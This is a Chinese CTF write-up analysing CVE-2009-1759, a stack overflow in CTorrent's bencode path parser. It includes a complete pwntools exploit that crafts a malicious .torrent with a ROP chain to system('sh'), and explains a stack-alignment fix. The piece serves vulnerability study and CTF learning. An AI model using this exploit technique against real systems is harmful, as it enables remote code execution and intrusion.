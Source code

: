 # CVE-2009-1759 BT文件解析器栈溢出漏洞解析


## Overall

.torrent文件是BT种子文件格式，CTorrent是该文件格式的解析器。由于解析器解析过程中某个解析函数缺少长度检测，在解析由用户可控大小的Path时会将用户输入memcpy到栈上定长buffer，可造成栈溢出，ROP提权。

复现契机来自于强网先锋[强网杯2021final]

<!--more-->

## Details

ctf赛题为Enhanced CTorrentdnh3.3.1的nday，尝试下载对应版本的ctorrent源码，可以看到在解析torrent文件时会调用btfiles.cpp/btFiles::BuildFromMI()

![](https://i.loli.net/2021/07/12/gbF3iSweHNtrcXo.png)

![](https://i.loli.net/2021/07/12/dbUjcgAEtI9yTfD.png)

关键部分如上图，可以看到path为定长数组，在decode_list2path()中将其作为参数传入。bencode.cpp/decode_list2path()将用户指定大小的内容memcpy到path中，而并没有进行长度检测，导致溢出。

![](https://i.loli.net/2021/07/12/zsP7Hlg2y1eu6Ev.png)

bencode为BT种子的编码格式，详见 https://zh.wikipedia.org/wiki/Bencode

经过分析，该函数是在解析torrent结构的FILES时，若path是list时调用的解析函数。我们可以精心构造path，通过栈溢出去做ROP or shellcode.

以强网先锋为例，exp如下

```python
from pwn import *

context(arch = 'amd64', os = 'linux', endian = 'little')
context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-h', '-p', '75']

io = process("./ctorrent", aslr=False)

# 0x15555502aea2 -> crash

# 0x402c7f      ret 
# 0x402c7e      pop rdi, ret
# 0x400f24      "sh\x00"
# 0x4022A0      system
# p64(0x402c7f) + 
rop = b'A' * 4152 + p64(0x402c7f) + p64(0x402c7e) + p64(0x400f24) + p64(0x4022A0)
size = 4176 + 8

pay = b"d"
pay += b"8:announce"
pay += b"20:http://0000/announce"
pay += b"13:creation date"
pay += b"i1111e"
pay += b"4:info"
pay += b"d"

################
pay += b"5:files"
pay += b"ld"
pay += b"4:path"
pay += b"l"
pay += bytes(str(size).encode("utf-8")) + b":"
pay += rop      # when parsing, memcpy to stack causing oveflow.
pay += b"e"
pay += b"6:length"
pay += b"i2222e"
pay += b"ee"
################

pay += b"4:name"
pay += b"4:4444"
pay += b"12:piece length"
pay += b"i3333e"
pay += b"6:pieces"
pay += b"20:" + bytes.fromhex("9f3d4e7c80e58146707d9e8ace218ee33cefeca9")
pay += b"ee"

# with open("./vul.torrent", "wb") as f:
#     f.write(pay)

# with open("./pay", "rb") as f:
#     pay = f.read()

# b *0x40a2d8  
# gdb.attach(io, "b *0x15555502afbc")
# print(pay)

io.sendlineafter(" Size of your torrent file >\n", str(len(pay)))

io.sendlineafter("Please input your torrent file >\n", pay)

io.interactive()
```

读者可以在0x40a2d8处断下，体会溢出点在哪儿。

## More

这题直接跳转到system("sh\x00")并不能打通，调试system函数发现在该位置处产生segment fault.

![](https://i.loli.net/2021/07/12/7TvfkyiL8KFNlJC.png)

查阅资料发现

> movaps：单精度浮点数指令，必须16字节对齐

> movups：单精度浮点数指令，不需要16字节对齐

所以需要再找一个ret的gadget，把栈向上抬到任意16字节对齐的位置即可。

![](https://i.loli.net/2021/07/12/yraomZSwBCqMI8x.png)

成功打通

![](https://i.loli.net/2021/07/12/Gid3mObc1WFqzoB.png)

事后找到了出现类似问题的[帖子](http://blog.eonew.cn/archives/958) 看来也算是自己重新踩了一遍坑。

## Reference

https://www.securityfocus.com/bid/34584/discuss

https://www.scaprepo.com/control.jsp?command=search&search=CVE-2009-1759&SCAP-TOKEN=O1B0-JQFA-GM0R-MFK8-VQE6-JHQX-JFU0-FJVG

https://www.exploit-db.com/exploits/8470





